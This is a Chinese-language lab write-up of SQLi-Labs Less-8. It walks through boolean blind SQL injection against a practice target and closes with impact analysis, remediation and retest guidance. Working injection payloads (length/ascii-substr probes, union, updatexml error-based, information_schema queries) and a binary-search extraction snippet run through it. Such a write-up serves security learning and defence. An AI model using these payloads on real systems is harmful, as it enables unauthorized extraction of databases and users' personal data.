SQLI-LAB报告

## 漏洞概要

SQL注入是一类高危漏洞，存在于与数据库相关的环境中，本质上是在数据与代码没有严格分离的环境下，将用户输入的内容作为可执行语句从而实现注入行为。SQL注入漏洞常见于未使用参数化查询、以拼接字符串方式构造 SQL 的场景。攻击者可通过SQL注入实现对数据库内容的访问，极易导致用户个人信息的泄露，和密码哈希撞库其他网站的用户，甚至承担法律责任。

SQL注入点大致可分为两种：GET型和POST型。GET型SQL注入的特点是以URL作为注入点，通过修改URL参数的方式完成注入攻击；POST型注入的特点是payload不在URL显现，而是通过修改POST请求体的内容。

SQL注入手法可分为六种：联合查询注入、报错注入、布尔盲注、时间盲注、堆叠注入、带外注入。联合查询注入和报错注入的特点是需要回显位，注入快速而精确；布尔盲注和时间盲注的特点是以页面变化的方式作为判断基准，在联合查询注入和报错注入失效时尝试布尔盲注和时间盲注；**堆叠注入**的特点是可以执行查询之外的操作，用";"结束查询语句，然后添加自己想要执行的SQL语句；**带外注入（OOB）**的特点是靠DNS/HTTP访问服务器时携带数据库信息，然后通过查看服务器log的方式得到需要的内容。

## 漏洞检测

0、判断数据库类型

1、检测数字型还是字符型

2、检测闭合方式

3、检测有无回显--盲注

4、检测过滤方式

## 打靶练习

LESS-8



用?id=1测试，返回页面正常



用?id=1'测试，页面返回空数据



用?id=1'--+测试，页面又能正常显示



用?id=1'%23测试，页面正常显示

因为#（%23）是MySQL特有的注释符，说明数据库类型为MySQL

通过刚才的几次测试我们发现页面上无回显位，故而尝试盲注

先用?id=[ ] and 1=1%23和?id=[ ] and 1=2%23测试是数字型还是字符型，如果是字符型继续测试闭合方式




id=1时无论1=1还是1=2都正常显示，说明不是数字型





id=1'时，1=1正常显示，1=2时返回空页面，说明是字符型且闭合方式为'

下一步确认库名

确认库名先确认库名长度，再确认每一位的字符



构造payload：?id=1' and length(database())>9%23使用length()函数试探库名长度，发现库名长度不大于9





用同样的方式多试几次，发现库名长度大于7而不大于8，确认库名长度为8



构造payload：?id=1' and ascii(substr(database(),1,1))>56%23缩小第一个字符的范围，这里涉及8个字符，可以写一个EXP进行爆破，一步一步来



先简单写一个程序看看布尔值为真与假的区别



在此基础上使用二分法探测字符的ascii码，组合输出数据库名



同理，将库名换成表名



列名、数据同理，使用burp suite更加方便



payload：?id=1' and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))=a--+

先爆破表名长度



得到表名长度为29



payload：?id=1' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=1--+，在burp里抓包，转到intruder

（注意 substr 的第一个参数是**子查询**，必须再套一层括号：`substr(( select ... ), 1, 1)`。
少了这层括号会变成 SQL 语法错误，表现为"无论爆破点填什么都返回同一个结果"。）


设定两个爆破点





使用资源池快速爆破



转换得到emails,referers,uagents,users



使用exp会更快

## 总结

### 一、影响与危害

攻击者仅需对URL进行操作，无需任何验证，即可逐字符推断出数据库名、表名、列名以及表中的全部数据。本关演示的是**完全无回显**的情况：页面既不显示查询结果、也不显示报错信息，仅存在"条件为真/为假"两种状态，攻击者依然可以据此把数据完整还原出来。

本次已实际验证：推断出库名 `security`、表名 `emails,referers,uagents,users`。列名与表中数据同理可得。

其中若表内包含用户名与密码，则可进一步用于撞库其他平台的账号，影响范围超出本系统本身；账号信息属个人信息，若为生产环境可能触发《个人信息保护法》下的合规责任。

**利用门槛**：仅需浏览器与一次 URL 参数修改。**虽然需要大量请求，但全过程不需要任何账号凭据，也不需要专业工具——脚本几十行即可完成。**

### 二、修复建议

1、根本修复：
   对该参数使用预编译（参数化查询）。其原理是数据库先确定语句结构、
   再将参数作为纯数据传入，用户输入永远不会进入 SQL 语法层被解析。

2、为什么不能用转义/过滤替代：
   转义引号、过滤关键字属于黑名单思路，只要存在一个未覆盖的绕过方式
   即告失效。这是"堵"而不是"隔离"。

3、临时缓解（代码改不动时）：
   - 该接口的数据库账号降权，仅保留必要的 SELECT 权限
   - 统一错误页面，不向用户返回任何数据库相关信息
   - **本关的教训是：即使不回显报错、不回显数据，注入依然是可被利用的。**
     因此"关闭报错显示"不能作为修复手段，只能降低信息泄露的速度，
     **无法阻止数据被逐字符推断出来。**
   - 对同一参数的高频重复请求做限速与告警（盲注的典型特征就是同一接口被反复请求）

4、同类问题排查：
   按"是否存在字符串拼接构造 SQL"对全部接口做一次检索，注入点通常不止一处。

5、修复验证方法：
   用原 payload 复测：?id=1' and length(database())=8--+
   预期：条件为真与为假时页面**再无差异**（响应长度、内容均一致）。

   并需更换手法复测：
   - 联合查询：?id=-1' union select 1,2,3--+
   - 报错注入：?id=1' and updatexml(1,concat(0x7e,database(),0x7e),3)--+
   - 布尔盲注：?id=1' and 1=1--+ 与 ?id=1' and 1=2--+ 对比
   确认全部手法失效。仅拦截 UNION 一种不视为修复完成。

### 三、延伸思考

**卡在哪**：

1、**盲注的判断依据与直觉相反：条件为假时页面反而更长。**

   实测：条件为真 706 字符、条件为假 722 字符。
   假页面多出 `<font color="#0000ff" font-size=3></font>` 这一段（约 16 字节）。

   一开始我按常识假设"正常页面更长"，如果直接照这个假设写脚本，
   **所有判断都会反过来，而且脚本不报错**，只是输出一串乱码。
   这种静默错误比报错难查得多——**所以第一步必须先实测两个页面的长度，不能靠猜。**

2、**`substr()` 里的子查询少一层括号，导致"怎么爆破都返回同一个值"。**

   错误：`ascii(substr(select group_concat(table_name) from ... ,1,1))=a`
   正确：`ascii(substr((select group_concat(table_name) from ...),1,1))=a`

   `substr()` 的第一个参数要是一个"值"，而 `select ...` 是一条语句，
   必须用括号把它包成子查询才能当值用。

   **这个错误的隐蔽之处在于**：SQL 语法错误和"条件为假"落在**同一个分支**，
   页面长度完全一样（都是 722 / Burp 里都是 926），
   **从响应上分不出"payload 写错了"和"条件不成立"。**
   我当时靠"爆长度能成功、爆名字全都一样"才反推出是括号的问题——
   **两条 payload 并排对比，就能看出一个有两个 `((`、另一个只有一个 `(`。**

   教训：**排查这类问题时要用内容匹配（如 Grep - Match 抓关键字），不要只看响应长度。**

3、**用集束炸弹（Cluster Bomb）时把两个变量一起变了。**

   payload 里有两个爆破点（`substr` 的位置、要比较的 ASCII 值），
   集束炸弹做的是**笛卡尔积**，所以位置和值同时在变，
   等于在问"第 n 个字符的 ASCII 码是不是等于 m"，而 n、m 是两条独立循环。

   **盲注每次只能问一个问题**，正确做法是**固定其中一个**：
   位置写死、或用 Sniper 模式只留一个爆破点，逐位跑。

**学到什么**：

1、**没有回显不等于不能注入。** 这是本关最核心的一句话。
   页面的表现只有两种状态（正常/异常），但这两种状态就是**1 个 bit 的信息**，
   而只要有一个可靠的信息位，数据就能被一位一位问出来。
   至此四种手法的决策链完整了：

   ```
   有回显位        → 联合查询（1 个请求拿数据）
   无回显但报错     → 报错注入（约 30 字符/请求）
   报错也不回显     → 布尔盲注（本关，约 7 个请求/字符）
   连差异都没有     → 时间盲注
   ```

2、**二分法把"猜一个字符"从 95 次降到 7 次。**

   朴素做法是从 ASCII 32 试到 126，平均 47 次；
   二分法每次问"大于 mid 吗"，7 次锁定任意字符（因为 2 的 7 次方 = 128）。

   关键写法是维护一个**区间**而不是一个**探测点**：
   ```python
   low, high = 0, 127
   while low < high:
       mid = (low + high) // 2
       if check(f"...>{mid}"):
           low = mid + 1      # 大于 → 答案在右半边
       else:
           high = mid         # 不大于 → 答案 ≤ mid，保留 mid 本身
   ```
   **`high = mid`（而不是 `mid - 1`）是关键** —— 它保留了"可能等于 mid"这种情况，
   所以最后 `low == high` 时一定落在正确答案上。

   我另写了一版"探测点 + 步长减半"的跳跃法（`function2-8.py`）也能跑通，
   但它用 `>` 判断方向，**分不出"等于"和"小于"**，且超过 255 就跳不到。
   二分法改一下 `high` 初值就能覆盖任意范围。

3、**盲注的真实代价，必须自己跑一遍才有概念。**

   | 目标 | 字符数 | 请求次数 |
   |---|---|---|
   | 库名 | 8 | 56 |
   | 表名 | 29 | 203 |
   | users 表数据 | 188 | **约 1300** |

   同样的 188 个字符，Less-5 用报错注入**只要 7 个请求** —— **差 190 倍**。

   这就是为什么手法的选择顺序是"从信息量最大的往下试"：**不是规定，是效率排序。**
   每往下一层，代价涨一个数量级。**所以遇到注入点时，第一件事是判断"它给我什么信号"，
   而不是直接套某一种手法。**

4、**Burp 适合验证与排查，不适合大批量爆破。**
   Intruder 免费版有限速，1300 个请求要等很久；
   而且它的判据是"响应之间的差异"，不像脚本那样有明确的"真值基准"，
   容易把"语法错误"和"条件为假"混为一谈。**批量取数交给脚本。**

